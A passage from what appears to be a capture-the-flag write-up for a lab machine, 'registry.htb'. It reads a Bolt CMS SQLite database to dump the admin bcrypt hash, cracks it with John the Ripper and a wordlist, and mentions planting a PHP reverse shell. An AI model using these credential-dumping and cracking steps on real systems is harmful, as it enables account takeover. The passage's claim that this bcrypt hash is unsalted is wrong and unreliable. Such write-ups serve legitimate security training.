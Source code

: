 
We have a lot of infos from pspy, but the main intersting was : 

###### The user "www-data"( uid=33) have a sudo right to execute a command as root.
###### A cron script removing all content of " /var/www/html/bolt/files/" each 4 minutes.
 
#### Shell as www-data

We don't have rights to put any php rev-shell into /var/www/html/, so the idea is to found creds to authenticate to the bolt CMS, and exploit from this point.
 
It's easy to understand from the bolt documentation that, we can use  Sqlite as db, and this file is in the directory "app/database".

Let's read the config file first 

```
$ cat config/config.yml
database:
    driver: sqlite
    databasename: bolt

```

The app use sqlite as database, and the database name is "bolt", so i upload "app/database/bolt.db" to my box and i found the creds for admin like:  

```
$ sqlite3 bolt.db 
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .tables
bolt_authtoken    bolt_field_value  bolt_pages        bolt_users      
bolt_blocks       bolt_homepage     bolt_relations  
bolt_cron         bolt_log_change   bolt_showcases  
bolt_entries      bolt_log_system   bolt_taxonomy   
sqlite> select * from bolt_users;
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-10-17 14:34:52|10.10.14.x|Admin|["files://shell.php"]|1||||0||["root","everyone"]
sqlite>
```

From the hash header, it's a bcrypt hash "$2y$10" without salt.
#### The template of a hash is :  $algo$salt$hash
Here we have : $algo$hash, so we deduct that we don't have a salt.

Let's crack it with john like :

```
$ cat hash                                                                  
admin:$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK

$ john   --wordlist=Rockyou.txt hash             
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
strawberry       (admin)
```
